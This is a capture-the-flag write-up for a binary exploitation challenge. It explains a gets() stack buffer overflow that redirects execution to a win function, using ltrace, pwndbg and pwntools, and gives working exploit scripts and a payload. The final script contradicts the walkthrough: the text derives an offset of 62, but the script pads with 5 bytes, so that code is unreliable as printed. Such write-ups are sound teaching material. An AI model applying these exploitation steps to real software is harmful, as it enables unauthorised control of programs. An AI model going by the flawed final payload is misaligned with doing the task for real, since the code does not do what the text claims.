 # Title

## Authors
- @jjamme

## Category
- Binary Exploitation

## Description
We are overflowing with customers!

`nc pwn.ctf.unswsecurity.com 5002`

## Difficulty
- Easy

## Points
50

## Files
- [office](_ctfd/files/office): binary to exploit

## Solution
<details>
<summary>Spoiler</summary>

### Idea
Using a buffer overflow, you can overwrite the return address and change code flow!

### Walkthrough
As usual, a plug for LiveOverflow is due:
- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)  
  (Shall go into the exploits in MUCH more detail)
  
The exploit is a simple buffer overflow through gets(). So the best way to break the program, is to be reaally excited about that skylight cyber visit

![gets excited kek](writeup-imgs/gets.png)

The easiest way to find the gets, is to run `ltrace` on the execution. Automating the input from before

```bash
python -c "print 'a' * 100" | ltrace ./office
```  
gives us:
![ltrace shenanigans](writeup-imgs/ltrace.png)

as you see, its running gets, which means you can enter as many characters as you want and the program happily writes it into memory (even in places you, the user is not meant to write to)

The idea is that you're meant to "visit" Skylight's Sydney office, which is a 4-byte address to the win function. The best way to see this is to open up the binary in gdb, list all functions using `info functions` command
```
pwndbg> info functions
...
0x080491e6  win
0x08049277  vuln
0x080492ef  main
...
```

The point is that when you write excess input using gets, it filled up the buffer which was meant to store it, and then started overwriting the stack. The program, on executing the return statement, will simply take what's on the top of the stack (since this is where it expects the return address to be) and then jumps to it. If we control this address, we control code flow

Now the only problem is to find the offset to write the address to. The easiest way to do this is to write the address to every offset until it gives you a flag.
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i + pack(0x080491e6)
    
    # open a link to the program and execute
    prog = Popen('./office', stdin=PIPE, stdout=PIPE)
    (res, _) = prog.communicate(test)

    # search for the flag
    if (b"SKYLIGHT" in res):
        print(res)
        break
```
**Note**: The pack function from pwntools converts numbers into little endian format. (google this or watch liveoverflow as to why)


But for the sake of understanding how this works is to enter a large number of unique characters, and find out which character the program redirects execution to. 
something like:
```
python -c "print 'AAAABBBBCCCCDDDD...'" | ./office 
```
we can generate long unique strings using pwntools
```py
from pwn import *
print(cyclic(100))
```
then you run the program using gdb, and enter the string you created
```
gdb ./office
gdb> run
gdb> **enter your string here**
```
We then see that the program tries to return (or jump to) the address `0x61716161`
![pwndbg output](writeup-imgs/pwndbg.png)
_I'm using the pwndbg extension for gdb btw, that's why it looks prettier_

Since we see that the instruction pointer was trying to execute the instruction `aaqa`, we can find the offset for it into the buffer (using pwntools again)
```py
from pwn import *
print(cyclic_find(b'aaqa'))
```
which gives us 62, i.e. it jumps to the address after the 62nd character. So our payload is now:

```py
b'a' * 62 + pack(0x080491e6)
``` 
Putting this in the pwntools script, we get:
```py
from pwn import *
from subprocess import Popen, PIPE

prog = Popen('./office', stdin=PIPE, stdout=PIPE)

payload = b'a' * 5 + pack(0x080491e6)
(res, _) = prog.communicate(payload)
print(res)
```


### Flag
`SKYLIGHT{th1s_i5_n0t_0UR_0FF1ce}`

</details>
